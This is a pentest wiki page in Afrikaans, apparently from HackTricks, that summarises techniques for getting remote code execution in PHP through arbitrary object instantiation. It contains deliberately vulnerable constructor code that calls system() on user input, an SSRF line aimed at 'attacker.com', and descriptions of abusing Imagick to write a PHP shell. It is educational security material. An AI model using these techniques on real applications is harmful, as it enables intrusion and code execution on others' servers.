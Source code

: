 # PHP - RCE misbruik van objekskepping: new $\_GET\["a"]\($\_GET\["b")

{{#include ../../../banners/hacktricks-training.md}}

Dit is basies 'n opsomming van [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Inleiding

Die skepping van nuwe arbitrêre objek, soos `new $_GET["a"]($_GET["a"])`, kan lei tot Remote Code Execution (RCE), soos in 'n [**skrywe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uiteengesit. Hierdie dokument beklemtoon verskeie strategieë om RCE te bereik.

## RCE via Aangepaste Klasse of Autoloading

Die sintaksis `new $a($b)` word gebruik om 'n objek te instantiëer waar **`$a`** die klasnaam verteenwoordig en **`$b`** die eerste argument is wat aan die konstruktors oorhandig word. Hierdie veranderlikes kan afkomstig wees van gebruikersinsette soos GET/POST, waar hulle moontlik strings of arrays is, of van JSON, waar hulle as ander tipes mag voorkom.

Oorweeg die kode-snippet hieronder:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In hierdie geval, om `$a` op `App` of `App2` en `$b` op 'n stelselaanroep (bv. `uname -a`) te stel, lei tot die uitvoering van daardie aanroep.

**Outomatiese laai funksies** kan uitgebuit word as daar geen sulke klasse direk toeganklik is nie. Hierdie funksies laai outomaties klasse vanaf lêers wanneer nodig en word gedefinieer met behulp van `spl_autoload_register` of `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Die gedrag van outomatiese laai varieer met PHP weergawes, wat verskillende RCE moontlikhede bied.

## RCE via Ingeboude Klasse

In die afwesigheid van pasgemaakte klasse of outomatiese laaiers, kan **ingeboude PHP klasse** voldoende wees vir RCE. Die aantal van hierdie klasse wissel tussen 100 en 200, gebaseer op die PHP weergawe en uitbreidings. Hulle kan gelys word met `get_declared_classes()`.

Konstruktors van belang kan geïdentifiseer word deur die refleksie API, soos in die volgende voorbeeld en die skakel [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) getoon.

**RCE via spesifieke metodes sluit in:**

### **SSRF + Phar Deserialisering**

Die `SplFileObject` klas stel SSRF in staat deur sy konstruktor, wat verbindings na enige URL toelaat:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kan lei tot deserialisering aanvalle in weergawes van PHP voor 8.0 wat die Phar protokol gebruik.

### **Eksploitering van PDO's**

Die PDO klas konstruktor laat verbindings toe tot databasisse via DSN stringe, wat moontlik lêer skep of ander interaksies moontlik maak:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Weergawes van PHP tot 5.3.22 en 5.4.12 was vatbaar vir XXE-aanvalle deur die `SoapClient` en `SimpleXMLElement` konstruktors, afhangende van die weergawe van libxml2.

## RCE via Imagick-uitbreiding

In die analise van 'n **projek se afhanklikhede**, is ontdek dat **Imagick** benut kan word vir **opdraguitvoering** deur nuwe voorwerpe te instansieer. Dit bied 'n geleentheid om kwesbaarhede te benut.

### VID parser

Die VID parser vermoë om inhoud na enige gespesifiseerde pad in die lêerstelsel te skryf, is geïdentifiseer. Dit kan lei tot die plasing van 'n PHP-shel in 'n web-toeganklike gids, wat Remote Code Execution (RCE) bereik.

#### VID Parser + Lêeroplaai

Daar word opgemerk dat PHP tydelik opgelaaide lêers stoor in `/tmp/phpXXXXXX`. Die VID parser in Imagick, wat die **msl** protokol gebruik, kan wildcard in lêerpaaie hanteer, wat die oordrag van die tydelike lêer na 'n gekose ligging vergemaklik. Hierdie metode bied 'n addisionele benadering om arbitrêre lêer skryf binne die lêerstelsel te bereik.

### PHP Crash + Brute Force

'n Metode wat beskryf word in die [**oorspronklike skrywe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) behels die opgradering van lêers wat 'n bedienerkragopval veroorsaak voordat dit verwyder word. Deur die naam van die tydelike lêer te brute-force, word dit moontlik vir Imagick om arbitrêre PHP-kode uit te voer. Hierdie tegniek is egter gevind om slegs effektief te wees in 'n verouderde weergawe van ImageMagick.

## Verwysings

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
